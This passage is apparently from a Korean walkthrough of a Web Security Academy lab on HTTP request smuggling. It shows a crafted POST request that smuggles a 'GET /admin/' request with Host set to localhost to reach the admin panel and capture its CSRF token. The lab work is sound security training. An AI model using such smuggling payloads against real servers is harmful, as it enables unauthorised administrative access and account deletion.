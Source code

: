 ![](/images/burp-academy-hrs-21-7.png)


7. 이제 exploit을 시작할 차례다. 공격용 요청을 다음과 같이 바꾼다. `/admin/`에 접근하는 Host헤더의 값을 localhost로 바꿨다. 

```http
POST /resources HTTP/1.1
Host: 0ace005c047a8f7493536f750072005a.web-security-academy.net
Cookie: session=ySyYZqiST7hYQjTbhymPN7FvFroZOket
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Length: 89

GET /admin/ HTTP/1.1
Host: localhost


```

8. Turbo Intruder에서 다시한번 보내본다. 61초후에 다음과 같은 응답이 돌아온다. admin 패널에 접근성공해 200응답이 돌아왔고, 유저를 삭제할 수 있는 form이 확인된다. CSRF토큰도 포함되어 있다. CSRF토큰을 어딘가에 복사해둔다. 

